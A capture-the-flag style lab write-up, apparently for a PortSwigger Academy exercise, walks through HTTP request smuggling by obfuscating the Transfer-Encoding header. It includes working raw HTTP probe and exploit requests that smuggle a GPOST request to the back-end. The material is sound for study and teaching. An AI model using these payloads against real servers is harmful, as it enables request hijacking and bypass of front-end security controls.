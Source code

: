 # HTTP request smuggling, obfuscating the TE header
# Objective
This lab involves a front-end and back-end server, and the two servers handle duplicate HTTP request headers in different ways. \
The front-end server rejects requests that aren't using the GET or POST method.\
To solve the lab, smuggle a request to the back-end server, so that the next request processed by the back-end server appears to use the method `GPOST`.

# Solution
## Determinig what the front-end is using
If front-end uses `Transfer-Encoding` header it should response with error, because `X` is not valid chunk size.
```
POST / HTTP/1.1
Host: 0a1e002003c7b59f8088f378007c00d2.web-security-academy.net
Cookie: session=zsmRbeHTY4pqBetlApmYJgbBsWpbnoWH
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7
Transfer-Encoding: chunked

4
test
X

```

|![](Images/image-11.png)|
|:--:| 
| *Error - Front-end is using Transfer Encoding header* |
|![](Images/image-12.png)|
| *Read timeout - Deletion of the extra line after X causes different error* |

## Determining what the back-end is using
This request after coming from front-end is striped of the `X` - the vale of content length header is not valid (Changing it in the below payload does not change the response).

```
POST / HTTP/1.1
Host: 0a1e002003c7b59f8088f378007c00d2.web-security-academy.net
Cookie: session=zsmRbeHTY4pqBetlApmYJgbBsWpbnoWH
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

X

```

|![](Images/image-13.png)|
|:--:| 
| *No error - Back-end is using Transfer Encoding header* |

## Obfuscating transfer encoding header
Adding a second `Transfer-Encoding` header with invalid value forced back-end to ignore `Transfer-Encoding` header and evaluate `Content-Length` header instead. In the example below, the request after coming from front-end is striped of the `X` - the value of content length header is not valid. Because of this back-end waited for the mising byte which lead to time-out.

```
POST / HTTP/1.1
Host: 0a1e002003c7b59f8088f378007c00d2.web-security-academy.net
Cookie: session=zsmRbeHTY4pqBetlApmYJgbBsWpbnoWH
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked
Transfer-Encoding: invalid

0

X

```

|![](Images/image-14.png)|
|:--:| 
| *Time-out - Back-end now is using Content Length header* |

```
POST / HTTP/1.1
Host: 0a1e002003c7b59f8088f378007c00d2.web-security-academy.net
Cookie: session=zsmRbeHTY4pqBetlApmYJgbBsWpbnoWH
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked
Transfer-Encoding: invalid

1
G
0


```

|![](Images/image-15.png)|
|:--:| 
| *Poisoning back-end* |

## Exploitation
```
POST / HTTP/1.1
Host: 0a1e002003c7b59f8088f378007c00d2.web-security-academy.net
Cookie: session=zsmRbeHTY4pqBetlApmYJgbBsWpbnoWH
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked
Transfer-Encoding: invalid

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

x=1
0


```

`Content-Length: 11` - must be bigger (at least by one) then the actual size of the smuggled request payload. This ensures that it will be trigered (one byte of the normal request will be appened to the smuggled request).

```
x=1\r\n         +5
0\r\n           +3
\r\n            +2
```

|![](Images/image-16.png)|
|:--:| 
| *Request was smuggled* |
|![](Images/image-17.png)|
| *Content Length inside smuggled reqest must be bigger than the payload* |
